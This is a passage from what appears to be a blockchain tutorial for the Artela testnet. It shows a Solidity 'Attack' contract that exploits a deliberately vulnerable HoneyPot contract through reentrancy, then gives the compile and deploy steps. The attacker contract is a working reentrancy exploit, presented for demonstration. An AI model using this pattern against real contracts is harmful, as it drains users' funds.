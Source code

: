 **Step2: Deploy the Attacker Smart Contract and exploit HoneyPot with reentrancy** 

We can deploy an attacker smart contract as below. This contract is designed to exploit vulnerabilities in HoneyPot.sol.

```tsx
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.8.2 <0.9.0;

import "./HoneyPot.sol";

contract Attack {
    HoneyPot public honeyPot;

    constructor(address _depositFundsAddress) {
        honeyPot = HoneyPot(_depositFundsAddress);
    }

    function attack() external payable {
        honeyPot.withdraw();
    }

    function deposit() external payable {
        require(msg.value >= 10 ether);
        honeyPot.deposit{value: 10 ether}();
    }

    receive() external payable  {
        if (address(honeyPot).balance >= 1 ether) {
            honeyPot.withdraw();
        }
    }
}
```

**Step3: Compile Contracts**
Compile `HoneyPot.sol` and `Attack.sol` to obtain deployable bytecode using the `asolc` tool:

```bash
>  asolc -o ${your target folder path} --via-ir --abi --bin ${your *.sol file path} --overwrite
```

**Step4: Deploy Contracts** 
Deploy `HoneyPot.sol` and `Attack.sol` to the Artela testnet. Below is an example of deploying `HoneyPot.sol`:

```tsx
// Deploy honeypot contract to artela
//
// HoneyPot is an asset management contract that keeps track of the assets owned by users of HoneyPot. 
// The total recorded amount of these assets is mapped to the native assets held in the contract's account on the blockchain.
//
// Contract at: reentrance/contracts/HoneyPot.sol
let honeyPotContract = new web3.atl.Contract(HoneyPotAbi);
let token_instance = honeyPotContract.deploy().send({ from, nonce, gas, gasPrice });
let honeypotAddress = "";
honeyPotContract = await token_instance.on('receipt', function (receipt) {
    console.log("=============== deployed contract ===============");
    console.log("contract address: " + receipt.contractAddress);
    console.log(receipt);
    honeypotAddress = receipt.contractAddress
}).on('transactionHash', (txHash) => {
    console.log("deploy contract tx hash: ", txHash);
});
console.log("== HoneyPot_address ==", honeypotAddress)
```